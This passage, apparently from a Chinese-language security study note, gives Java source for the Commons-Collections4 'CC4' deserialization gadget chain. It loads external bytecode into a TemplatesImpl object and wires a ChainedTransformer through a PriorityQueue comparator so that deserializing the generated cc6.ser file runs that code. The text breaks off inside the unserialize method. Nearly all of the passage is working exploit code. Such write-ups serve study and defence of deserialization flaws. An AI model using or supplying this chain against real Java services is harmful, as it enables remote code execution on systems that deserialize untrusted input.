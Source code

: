

完整代码：

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

public class CC4PriorityQueue {
    public static void main(String[] args) throws Exception {
        byte[] code1 = Files.readAllBytes(Paths.get("E:\\CODE_COLLECT\\CC6TiedMapEntry2.class"));
        TemplatesImpl templatesClass = new TemplatesImpl();
        Field[] fields = templatesClass.getClass().getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            if (field.getName().equals("_bytecodes")) {
                field.set(templatesClass, new byte[][]{code1});
            } else if (field.getName().equals("_name")) {
                field.set(templatesClass, "godown");
            } else if (field.getName().equals("_tfactory")) {
                field.set(templatesClass, new TransformerFactoryImpl());
            }
        }
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templatesClass}),
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator<>(chainedTransformer,null);
        PriorityQueue<Object> priorityQueue = new PriorityQueue<>(1,new TransformingComparator<>(new ConstantTransformer<>(1)));
        priorityQueue.add(1);
        priorityQueue.add(2);
        Field compareField = PriorityQueue.class.getDeclaredField("comparator");
        compareField.setAccessible(true);
        compareField.set(priorityQueue,transformingComparator);
        serialize(priorityQueue);
        unserialize("cc6.ser");
    }
    public static void serialize(Object obj) throws Exception {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("cc6.ser"));
        oos.writeObject(obj);
        oos.close();
    }
    public static Object unserialize(String filename) throws Exception {
```